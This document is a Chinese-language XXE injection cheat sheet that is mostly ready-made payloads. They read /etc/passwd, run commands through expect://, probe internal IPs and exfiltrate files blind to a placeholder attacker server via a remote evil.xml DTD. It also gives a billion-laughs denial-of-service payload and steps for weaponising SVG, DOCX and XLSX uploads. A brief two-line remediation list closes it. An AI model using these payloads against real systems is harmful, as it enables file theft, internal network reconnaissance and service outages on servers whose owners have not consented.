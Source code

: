 # XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是XML外部实体。

## XXE类型

### 有回显

读取任意文件

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "file:///etc/passwd">]>
    <root>&name;</root>
    
命令执行

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "except://ls">]>
    <root>&name;</root>

内网探测

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "http://192.168.1.1">]>
    <root>&name;</root>    
    
### 无回显

HTTP外带

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % remote SYSTEM "http://攻击者服务器IP:8888/evil.xml">
    %remote;
    %all;
    %send;
    ]>
    <root>&name;</root>

evil.xml

    <!ENTITY % all "<!ENTITY % send SYSTEM 'http://攻击者服务器IP:8888/1.php?file=%file;'>">

拒绝服务攻击

    <?xml version="1.0"?>
    <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
 
 ## 场景
 
 ### 用户输入嵌入到服务端解析的XML文档
 
 比如：检查库存功能
 
 因为无法控制整个XML文档，所以无法定义DTD来发起经典的XXE攻击。但改用XInclude，XInclude是XML规范的一部分，它允许从子文档构建XML文档
 
 payload
 
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    
将上述payload替换库存的id

### 基于XML格式的文件，比如DOCX文档、SVG图像等

#### 比如：头像上传处

svg文件payload

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls" width="200" height="200"></image>
    </svg>
    
然后头像就可能显示出数据

---

#### 比如：在线阅读DOCX文档、网站在线解析DOCX文档等功能

DOCX文档其实就是把一堆的XML文件按照一定的格式压缩在一起。

只需要把DOCX文档的后缀改为ZIP，并解压出其中的文件，就可以清晰地看到DOCX文档的“真实面貌“。

第一个回显位置：ord/document.xml文件中

在

    <?xml version.....>
    
的下方嵌入恶意代码

    <!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

第二个回显位置：docProps/app.xml

找到控制页码的标签是<Pages>

    <Pages>1</Pages>
    
修改为

    <Pages><!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]></Pages>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

---

#### 比如：Excel文件

与上面的DOCX文件类似

把xlxs文档后缀改为zip，找到xl/workbook.xml文件

    <?xml version ....>

下方添加恶意代码

将压缩包后缀重新改回xlxs文件即可得到一个恶意Excel文件。

### 修改请求包内容类型

大多数POST请求使用由HTML表单生成的默认内容类型，例如application/x-www-form-urlencoded。

将

    POST /action HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7
     
    foo=bar
    
修改为

    POST /action HTTP/1.0
    Content-Type: text/xml
    Content-Length: 52
     
    <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>    
    
如果应用程序接受消息正文中包含XML请求，并将正文内容解析为XML，那么我们只需将请求重新修改XML格式，就可以达到隐藏的XXE攻击面。
    
## 漏洞修复

* 禁用外部实体
* 过滤关键字，如<!DOCTYPE 、<!ENTITY、SYSTEM和PUBLIC等